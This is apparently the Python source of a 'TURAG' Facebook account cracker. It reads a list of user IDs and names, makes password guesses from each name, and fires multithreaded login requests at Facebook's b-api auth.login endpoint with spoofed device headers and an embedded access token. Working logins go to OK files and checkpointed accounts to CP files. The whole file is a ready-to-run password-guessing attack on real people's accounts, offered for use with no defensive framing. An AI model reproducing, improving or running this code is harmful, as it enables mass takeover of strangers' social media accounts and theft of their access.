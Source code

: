 # Aking.
import requests,bs4,json,os,sys,random,datetime,time,re
try:
	import rich
except ImportError:
	os.system('pip install rich')
	time.sleep(1)
	try:
		import rich
	except ImportError:
		exit('[✓] Internet Eror ,Install Manual (pip install rich)')
from rich.table import Table as me
from rich.console import Console as sol
from bs4 import BeautifulSoup as parser
from concurrent.futures import ThreadPoolExecutor as tred
from rich.console import Group as gp
from rich.panel import Panel as nel
from rich import print as cetak
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
try:ugen = open('user.txt','r').read().splitlines()
except:ugen = ['Mozilla/4.1 (compatible; MSIE 5.0; Symbian OS; Nokia 7610;451) Opera 6.20'] #Aziz
try:ugen2 = open('user2.txt','r').read().splitlines()
except:ugen2 = ['Mozilla/4.1 (compatible; MSIE 5.0; Symbian OS; Nokia 7610;451) Opera 6.20'] #Aziz

id,id2,loop,ok,cp,akun,oprek,method,lisensiku,taplikasi,tokenku,uid,lisensikuni= [],[],0,0,0,[],[],[],[],[],[],[],[]

x = '\033[93m'
k = '\033[93m'
h = '\x1b[1;92m'
hh = '\033[92m'
u = '\033[95m'
kk = '\033[93m'
b = '\33[1;96m'
p = '\x1b[1;95m'
P = '\033[0;00m'
J = '\033[1;93m'
S = '\033[0;00m'
N = '\x1b[0m'
I ='\033[1;92m'
C ='\033[1;96m'
M ='\033[1;91m'
U ='\033[1;95m'
K ='\033[1;93m'
P='\033[00m'
h='\033[1;90m'
Q="\033[00m"
kk='\033[1;92m'
ff='\033[1;96m'
G='\033[1;96m'
p='\033[00m'
h='\033[1;90m'
Q="\033[00m"
I='\033[1;92m'
II='\033[1;96m'
m='\033[1;91m'
O ='\033[1;93m'
H='\033[1;93m'
b = '\033[1;96m'
war = "[•]"
B = random.choice([U,I,K,b,M])

dic = {'1':'Januari','2':'Februari','3':'Maret','4':'April','5':'Mei','6':'Juni','7':'Juli','8':'Agustus','9':'September','10':'Oktober','11':'November','12':'Desember'}
dic2 = {'01':'Januari','02':'Februari','03':'Maret','04':'April','05':'Mei','06':'Juni','07':'Juli','08':'Agustus','09':'September','10':'Oktober','11':'November','12':'Desember'}
tgl = datetime.datetime.now().day
bln = dic[(str(datetime.datetime.now().month))]
thn = datetime.datetime.now().year
okc = 'OK-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'
cpc = 'CP-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'

my_id = '100007061760822'

def jalan(z):
    for e in z + "\n":sys.stdout.write(e);sys.stdout.flush();time.sleep(0.04)
def mlaku(z):
    for e in z + "\n":sys.stdout.write(e);sys.stdout.flush();time.sleep(0.03)
    
def clear():
	os.system('clear')
def back():
	menu()
def banner():
	clear()
	print("""%s\n\x1b[93;1m


 
████████╗██╗   ██╗██████╗  █████╗  ██████╗ 
╚══██╔══╝██║   ██║██╔══██╗██╔══██╗██╔════╝ 
   ██║   ██║   ██║██████╔╝███████║██║  ███╗
   ██║   ██║   ██║██╔══██╗██╔══██║██║   ██║
   ██║   ╚██████╔╝██║  ██║██║  ██║╚██████╔╝
   ╚═╝    ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝
                               
                                

                      
\x1b[92;1m===================================>\x1b[92;1m
\x1b[93;1m Author       \x1b[92;1m=>      \x1b[93;1mTURAG AHAMED
\x1b[93;1m Whatsapp     \x1b[92;1m=>      \x1b[93;1m+8801863713434
\x1b[93;1m FACEBOOK       \x1b[92;1m=>      \x1b[93;1mTURAG AHAMED 
\x1b[92;1m===================================>\x1b[92;1m
"""%(h))
		
def menu(): #Bilo
	banner()
	print("") #Bilo
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[1] File Crack  """%(h))
	print("""%s \33[1;33m[0] Exit"""%(h))
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	farhan = input(x+'\33[1;96m•Input Number> ')
	if farhan in ['1','01']:
		File2()
	elif farhan in ['0','00']:
		os.system("xdg-open https://www.facebook.com/turag.ahmed.18/")
		exit()
	else:
		os.system("https://www.facebook.com/turag.ahmed.18")
		exit()

def File2():
			clear()
			banner()
			try:
				fileX = input ('\n [+] Enter file path : ') 
				for line in open(fileX, 'r').readlines():
					id.append(line.strip())
				setting()
			except IOError:
				exit("\n [!] file %s not found"%(fileX))

def setting():
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[01] Farward Cracking """%(h))
	print("""%s \33[1;33m[02] Reverse Cracking """%(h))
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	mubashar = input(x+'\33[1;96m•Input Number>')
	if mubashar in ['1','01']:
		for bacot in id:
			id2.append(bacot)
	elif mubashar in ['2','02']:
		for bacot in id:
			id2.insert(0,bacot)
	
	else:
		print("""%s \33[1;33mRoung Input"""%(h))
		exit()
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[01] B-Api (fast)"""%(h))
	print("""%s \x1b[92;1m<===================================>\x1b[92;1m """%(h))
	baloch = input(x+'\33[1;96m•Input Number> : ')
	if baloch in ['1','01']:
		method.append('api')
	else:
		method.append('api')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	fast = input(x+'\33[1;96m Want To Start ? (y/t) : ')
	if fast in ['y','Y']:
		passwrd()
	elif fast in ['t','T']:
		os.system("xdg-open https://www.facebook.com/turag.ahmed.18")
		exit()

def passwrd():
	clear()
	banner()
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print(x+' '+h+' '+x+' Total ids : '+str(len(id)))
	print(x+'   [  IF NO RESULT USE AIRPLANE MODE  ]\n   Cracking Starting...')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
			if 'api' in method:
				pool.submit(crack2,idf,pwv)
			else:
				pool.submit(crack2,idf,pwv)
	print('')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	exitss = input(x+'\33[1;96m Want to Exit (y/t) : ')
	if exitss in ['y','Y']:
		exit()
	else:
		exit()

def crack2(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	print('\r%s [TURAG] %s/%s  OK*%s | CP*%s => %s%s%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x), end=' ');sys.stdout.flush()
	ua = random.choice(ugen).replace('\n','')
	ses = requests.Session()
	for pw in pwv:
		try:
			head = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}
			resp = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(idf)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=head)
			if "www.facebook.com" in resp.json()["error_msg"]:
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				else:
					print('\r%s [TURAG-CP] %s|%s        '%(b,idf,pw))
					open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				break
			elif "session_key" in resp.text and "EAAB" in resp.text:
				print('\r%s [ok] %s|%s        '%(h,idf,pw))
				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')
				ok+=1
				break
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

def jalan(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.04)
def mlaku(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


if __name__=='__main__':
	os.system('git pull')
	try:os.mkdir('CP')
	except:pass
	try:os.mkdir('OK')
	except:pass
	os.system("https://www.facebook.com/turag.ahmed.18")
	menu()
	
